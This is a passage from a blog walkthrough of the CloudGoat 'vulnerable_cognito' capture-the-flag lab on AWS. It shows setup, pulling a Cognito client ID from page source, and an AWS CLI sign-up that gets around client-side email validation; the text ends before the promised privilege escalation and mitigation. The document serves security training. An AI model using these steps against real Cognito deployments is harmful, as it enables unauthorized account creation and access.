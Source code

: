 # CloudGoat Scenario 2: vulnerable_cognito (Small / Moderate): WalkThrough and Mitigation

Hey hi, Soumyanil is back but with Cloud now, let’s have a look into AWS Penetration Testing. I will be covering all the scenarios provided by the CloudGoat vulnerable AWS environment by Rhinosecurity Labs.

**CloudGoat** is **Rhino Security Labs**’ “_Vulnerable by Design_” AWS deployment tool. It allows us to hone our cloud cybersecurity skills by creating and completing several **CTF** style scenarios. Each and every scenario is composed of AWS resources arranged together to create a structured learning experience. These scenarios vary in difficulty and many offer multiple paths to Flag/Goal.

From ***Purple Team point of View***:\
i. Our mission to perform Recon, identify vulnerabilities, and perform exploitation in order to achieve the scenario objective.\
ii. Provide Mitigation for the above Flaw that we came accross.

### <ins>Details about the Scenario :</ins>
i. In this scenario, you are presented with a signup and login page with AWS Cognito in the backend.\
ii. You need to :\
&nbsp;&nbsp;Objective A. ***Bypass restrictions*** \
&nbsp;&nbsp;Objective B. and ***Exploit Misconfigurations in Amazon Cognito*** in order :\
&nbsp;&nbsp;&nbsp;&nbsp;1. ***To Elevate your privileges***\
&nbsp;&nbsp;&nbsp;&nbsp;2. ***and get Cognito Identity Pool credentials***

I will be using Kali Linux VM to Spin Up the Vulnerable Lab Setup.

### CloudGoat SetUp:

To install [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat/):
```bash
git clone https://github.com/RhinoSecurityLabs/cloudgoat.git
cd cloudgoat
pip3 install -r ./requirements.txt
chmod +x cloudgoat.py
```
### NOTE:
Please setup the AWS CLI and AWS account prior to the above commands and create a user with name “cloudgoat” having permission for CLI connections.

### 1. Setting Up Scenario 2: vulnerable_cognito (Small / Moderate):
```bash
./cloudgoat.py create vulnerable_cognito
```
![](https://github.com/reveng007/reveng007.github.io/blob/main/CloudGoat/2.Scenarios-vulnerable_cognito%20(Small%20or%20Moderate)/1.ScenarioSetUp.png?raw=true)

![](https://github.com/reveng007/reveng007.github.io/blob/main/CloudGoat/2.Scenarios-vulnerable_cognito%20(Small%20or%20Moderate)/2.ScenarioSetUp.png?raw=true)



Q. BTW, What is **Amazon Cognito** ? \
Ans: According to [AWS](https://docs.aws.amazon.com/cognito/latest/developerguide/what-is-amazon-cognito.html):

![](https://github.com/reveng007/reveng007.github.io/blob/main/CloudGoat/2.Scenarios-vulnerable_cognito%20(Small%20or%20Moderate)/3.AmazonCognito.png?raw=true)

> So basically, **Amazon Cognito** is a User Identity and Data Syncronization Service, which gives User a very easy time to manage their accounts connected Over Mutiple Electronic Devices. 

### Let's Start:

```bash
┌──(kali㉿kali)-[~/AWS/BLOG_AWS/cloudgoat]
└─$ cat vulnerable_cognito_cgidgxpcecu5yc/start.txt 

apigateway_url = https://ht0ueqmd17.execute-api.us-east-1.amazonaws.com/vulncognito/cognitoctf-vulnerablecognitocgid2jkmefusdh/index.html
cloudgoat_output_aws_account_id = 572769290600
```

Let's Navigate to the site and signing up:

![image](https://github.com/reveng007/blog/assets/61424547/9a63d938-79fc-42fa-a4f1-05ac6cef5642)

Now using [temp-mail](https://temp-mail.org/en/), I tried to Sign-Up but I failed!

![](https://github.com/reveng007/reveng007.github.io/blob/main/CloudGoat/2.Scenarios-vulnerable_cognito%20(Small%20or%20Moderate)/5.SignUpEmailValidationError.png?raw=true)

## ***Objective A: Bypassing email (client-side validation Check) restrictions***:

### 1. Inspecting Source code of Webpage:

![image](https://github.com/reveng007/blog/assets/61424547/eb805432-0ac9-4897-8d2e-1aea2eb17721)

Got this Creds:
```bash
UserPoolId: 'us-east-1_mYaVxhwr7'
ClientId: '4u4i11pmknfa2k6flrur6c3a5v'
```

### 2. Bypassing email Client-Side validation Checks/ restrictions via AWS CLI:

Let us use this _retireved_ `ClientId` to SignUp Via AWS CLI, which would bypass _`email Client-Side validation Check/restriction`_.

```bash
aws cognito-idp sign-up --client-id [Client-id] --username [temp-mail address] --password [add-password] --region [region] --user-attributes '[{"Name":"given_name","Value":"lorem"},{"Name":"family_name","Value":"ipsum"}]'
```

```bash
┌──(kali㉿kali)-[~/AWS/BLOG_AWS/cloudgoat]
└─$ aws cognito-idp sign-up --client-id 4u4i11pmknfa2k6flrur6c3a5v --username yeripan911@bitofee.com --password Passw0rd! --region us-east-1 --user-attributes '[{"Name":"given_name","Value":"lorem"},{"Name":"family_name","Value":"ipsum"}]'
{
    "UserConfirmed": false,
    "CodeDeliveryDetails": {
        "Destination": "y***@b***",
        "DeliveryMedium": "EMAIL",
        "AttributeName": "email"
    },
    "UserSub": "3072f385-94fb-4eff-8371-829f7610af7e"
}
```
